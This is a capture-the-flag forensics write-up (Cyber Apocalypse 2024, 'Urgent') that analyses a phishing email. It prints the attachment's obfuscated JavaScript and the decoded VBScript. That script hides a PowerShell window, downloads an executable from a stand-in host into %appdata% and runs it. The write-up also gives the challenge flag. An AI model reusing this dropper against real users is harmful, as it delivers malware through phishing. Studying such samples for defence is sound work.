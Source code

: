 # Cyber Apocalypse 2024

## Urgent

> In the midst of Cybercity's "Fray," a phishing attack targets its factions, sparking chaos. As they decode the email, cyber sleuths race to trace its source, under a tight deadline. Their mission: unmask the attacker and restore order to the city. In the neon-lit streets, the battle for cyber justice unfolds, determining the factions' destiny.
> 
> Author: n/a
> 
> [`forensics_urgent.zip`](forensics_urgent.zip)

Tags: _forensics_

## Solution
The challenge comes with a `eml` file. Eml files contain email content as plain text. Inside this file we have an e-mail from `anonmember1337@protonmail.com` sent to `factiongroups@gmail.com`.

```bash
X-Pm-Content-Encryption: end-to-end
X-Pm-Origin: internal
Subject: =?utf-8?Q?Urgent:_Faction_Recruitment_Opportunity_-_Join_Forces_Against_KORP=E2=84=A2_Tyranny!?=
From: anonmember1337 <anonmember1337@protonmail.com>
Date: Thu, 29 Feb 2024 12:52:17 +0000
Mime-Version: 1.0
Content-Type: multipart/mixed;boundary=---------------------2de0b0287d83378ead36e06aee64e4e5
To: factiongroups@gmail.com <factiongroups@gmail.com>
X-Attached: onlineform.html
Message-Id: <XVhH1Dg0VTGbfCjiZoHYDfUEfYdR0B0ppVem4t3oCwj6W21bavORQROAiXy84P6MKLpUKJmWRPw5C529AMwxhNiJ-8rfYzkdLjazI5feIQo=@protonmail.com>
X-Pm-Scheduled-Sent-Original-Time: Thu, 29 Feb 2024 12:52:05 +0000
X-Pm-Recipient-Authentication: factiongroups%40gmail.com=none
X-Pm-Recipient-Encryption: factiongroups%40gmail.com=none
```

The email decoded email content immediately gives us some fishing vibes but is less interesting, but there is also a file called `onlineform.html` attached. After decoding we get a html document that executes some obfuscated code. 

```html
<html>
<head>
<title></title>
<body>
<script language="JavaScript" type="text/javascript">
document.write(unescape('%3c%68%74%6d%6c%3e%0d%0a%3c%68%65%61%64%3e%0d%0a%3c%74%69%74%6c%65%3e%20%3e%5f%20%3c%2f%74%69%74%6c%65%3e%0d%0a%3c%63%65%6e%74%65%72%3e%3c%68%31%3e%34%30%34%20%4e%6f%74%20%46%6f%75%6e%64%3c%2f%68%31%3e%3c%2f%63%65%6e%74%65%72%3e%0d%0a%3c%73%63%72%69%70%74%20%6c%61%6e%67%75%61%67%65%3d%22%56%42%53%63%72%69%70%74%22%3e%0d%0a%53%75%62%20%77%69%6e%64%6f%77%5f%6f%6e%6c%6f%61%64%0d%0a%09%63%6f%6e%73%74%20%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%20%3d%20%33%0d%0a%09%43%6f%6e%73%74%20%48%49%44%44%45%4e%5f%57%49%4e%44%4f%57%20%3d%20%31%32%0d%0a%09%53%65%74%20%4c%6f%63%61%74%6f%72%20%3d%20%43%72%65%61%74%65%4f%62%6a%65%63%74%28%22%57%62%65%6d%53%63%72%69%70%74%69%6e%67%2e%53%57%62%65%6d%4c%6f%63%61%74%6f%72%22%29%0d%0a%09%53%65%74%20%53%65%72%76%69%63%65%20%3d%20%4c%6f%63%61%74%6f%72%2e%43%6f%6e%6e%65%63%74%53%65%72%76%65%72%28%29%0d%0a%09%53%65%72%76%69%63%65%2e%53%65%63%75%72%69%74%79%5f%2e%49%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%4c%65%76%65%6c%3d%69%6d%70%65%72%73%6f%6e%61%74%69%6f%6e%0d%0a%09%53%65%74%20%6f%62%6a%53%74%61%72%74%75%70%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%53%74%61%72%74%75%70%22%29%0d%0a%09%53%65%74%20%6f%62%6a%43%6f%6e%66%69%67%20%3d%20%6f%62%6a%53%74%61%72%74%75%70%2e%53%70%61%77%6e%49%6e%73%74%61%6e%63%65%5f%0d%0a%09%53%65%74%20%50%72%6f%63%65%73%73%20%3d%20%53%65%72%76%69%63%65%2e%47%65%74%28%22%57%69%6e%33%32%5f%50%72%6f%63%65%73%73%22%29%0d%0a%09%45%72%72%6f%72%20%3d%20%50%72%6f%63%65%73%73%2e%43%72%65%61%74%65%28%22%63%6d%64%2e%65%78%65%20%2f%63%20%70%6f%77%65%72%73%68%65%6c%6c%2e%65%78%65%20%2d%77%69%6e%64%6f%77%73%74%79%6c%65%20%68%69%64%64%65%6e%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%73%3a%2f%2f%73%74%61%6e%64%75%6e%69%74%65%64%2e%68%74%62%2f%6f%6e%6c%69%6e%65%2f%66%6f%72%6d%73%2f%66%6f%72%6d%31%2e%65%78%65%27%2c%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%29%3b%53%74%61%72%74%2d%50%72%6f%63%65%73%73%20%27%25%61%70%70%64%61%74%61%25%5c%66%6f%72%6d%31%2e%65%78%65%27%3b%24%66%6c%61%67%3d%27%48%54%42%7b%34%6e%30%74%68%33%72%5f%64%34%79%5f%34%6e%30%74%68%33%72%5f%70%68%31%73%68%69%31%6e%67%5f%34%74%74%33%6d%70%54%7d%22%2c%20%6e%75%6c%6c%2c%20%6f%62%6a%43%6f%6e%66%69%67%2c%20%69%6e%74%50%72%6f%63%65%73%73%49%44%29%0d%0a%09%77%69%6e%64%6f%77%2e%63%6c%6f%73%65%28%29%0d%0a%65%6e%64%20%73%75%62%0d%0a%3c%2f%73%63%72%69%70%74%3e%0d%0a%3c%2f%68%65%61%64%3e%0d%0a%3c%2f%68%74%6d%6c%3e%0d%0a'));
</script>
</body>
</html>
```

To deobfuscate we just copy the `unescape(....)` part and execute it with `NodeJS`, giving us the html content in plaintext, and within also the flag.

```javascript
'<html>\r\n' +
  '<head>\r\n' +
  '<title> >_ </title>\r\n' +
  '<center><h1>404 Not Found</h1></center>\r\n' +
  '<script language="VBScript">\r\n' +
  'Sub window_onload\r\n' +
  '\tconst impersonation = 3\r\n' +
  '\tConst HIDDEN_WINDOW = 12\r\n' +
  '\tSet Locator = CreateObject("WbemScripting.SWbemLocator")\r\n' +
  '\tSet Service = Locator.ConnectServer()\r\n' +
  '\tService.Security_.ImpersonationLevel=impersonation\r\n' +
  '\tSet objStartup = Service.Get("Win32_ProcessStartup")\r\n' +
  '\tSet objConfig = objStartup.SpawnInstance_\r\n' +
  '\tSet Process = Service.Get("Win32_Process")\r\n' +
  `\tError = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('https://standunited.htb/online/forms/form1.exe','%appdata%\\form1.exe');Start-Process '%appdata%\\form1.exe';$flag='HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}", null, objConfig, intProcessID)\r\n` +
  '\twindow.close()\r\n' +
  'end sub\r\n' +
  '</script>\r\n' +
  '</head>\r\n' +
  '</html>\r\n'
```

Flag `HTB{4n0th3r_d4y_4n0th3r_ph1shi1ng_4tt3mpT}`